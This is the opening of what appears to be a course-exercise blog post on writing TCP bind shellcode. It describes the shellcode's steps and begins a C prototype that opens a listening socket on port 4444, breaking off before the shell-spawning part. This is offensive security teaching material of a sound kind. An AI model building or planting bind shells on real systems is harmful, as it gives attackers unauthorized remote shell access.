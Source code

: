 ```yaml
---
layout: single
title: TCP bind shellcode
date: 2018-11-18
classes: wide
categories:
  - slae
  - infosec
tags:
  - slae
  - assembly
  - tcp bind shellcode
---
```

A bind shellcode listens on a socket, waiting for a connection to be made to the server then executes arbitrary code, typically spawning shell for the connecting user. This post demonstrates a simple TCP bind shellcode that executes a shell.

The shellcode does the following:
1. Creates a socket
2. Binds the socket to an IP address and port
3. Listens for incoming connections
4. Redirects STDIN, STDOUT and STDERR to the socket once a connection is made
5. Executes a shell

### C prototype
---------------
To better understand the process of creating a bind shellcode, I created a prototype in C that uses the same functions that'll be used in the assembly version. The full code is shown here. We'll walk through each section of the code after.

```c
#include <netinet/in.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <unistd.h>

int main()
{
    // Create addr struct
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444); // Port
    addr.sin_addr.s_addr = htonl(INADDR_ANY); // Listen on any interface

    // Create socket
    int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sock == -1) {
        perror("Socket creation failed.\n");
        exit(EXIT_FAILURE);
    }

    // Bind socket
    if (bind(sock, (struct sockaddr *) &addr, sizeof(addr)) == -1) {
        perror("Socket bind failed.\n");
        close(sock);
        exit(EXIT_FAILURE);
    }

    // Listen for connection
    if (listen(sock, 0) == -1) {
        perror("Listen failed.\n");
```